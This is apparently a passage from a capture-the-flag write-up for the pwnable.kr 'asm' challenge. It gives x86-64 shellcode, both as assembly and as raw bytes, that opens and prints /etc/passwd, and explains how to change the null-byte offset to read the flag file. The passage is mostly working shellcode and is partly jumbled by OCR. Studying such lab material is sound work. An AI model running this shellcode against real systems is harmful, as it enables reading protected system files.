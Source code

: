 ```Assembly
; syscall write to stdout
xor rdi, rdi
add dil, 1 ; set stdout fd = 1
mov rdx, rax
xor rax, rax
add al, 1
syscall
  
; syscall exit
xor rax, rax
add al, 60
syscall
  
_push_filename:
call _readfile
path: db "/etc/passwdA"
```

Shellcode:
```
\xeb\x3f\x5f\x80\x77\x0b\x41\x48\x31\xc0\x04\x02\x48\x31\xf6\x0f\x05\x66\x81\xec\xff\x0f\x48\x8d\x34\x24\x48\x89\xc7\x48\x31\xd2\x66\xba\xff\x0f\x48\x31\xc0\x0f\x05\x48\x31\xff\x40\x80\xc7\x01\x48\x89\xc2\x48\x31\xc0\x04\x01\x0f\x05\x48\x31\xc0\x04\x3c\x0f\x05\xe8\xbc\xff\xff\xff\x2f\x65\x74\x63\x2f\x70\x61\x73\x73\x77\x64\x41
```

So after understanding this snippet of assembly instructions we need to change 2 things:
- the `path` string
- 2nd instruction in `_readfile` which is `xor byte [rdi + 11], 0x41`

So the first one is obvious but why the second?

Well the original author of this added an extra upper 'A' to the end of `path`, then `_readline` replaces this with a NULL-byte so the `open` syscall will know when to finish reading. It's done by xoring the character in index 11 in `path`, so we need to modify it to be the length of `/home/asm_pwn/this_is_pwnable.kr_flag_file_please_read_this_file.sorry_the_file_name_is_very_loooooooooooooooooooooooooooooooooooooooooooooooooooooooooooooooooooooooooooo0000000000000000000000000ooooooooooooooooooooooo000000000000o0o0o0o0o0o0ong` which is 245.

<i> P.S: Don't forget to add an uppercase 'A' to the end of `path`</i>  

So the updated assembly should look like this:
```Assembly
──────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────
SECTION .data
SECTION .text
 global main
main:
jmp _push_filename
  
_readfile:
; syscall open file
pop rdi ; pop path value
; NULL byte fix
xor byte [rdi + 245], 0x41
  
xor rax, rax
add al, 2
xor rsi, rsi ; set O_RDONLY flag
syscall
  
; syscall read file
sub sp, 0xfff
lea rsi, [rsp]
```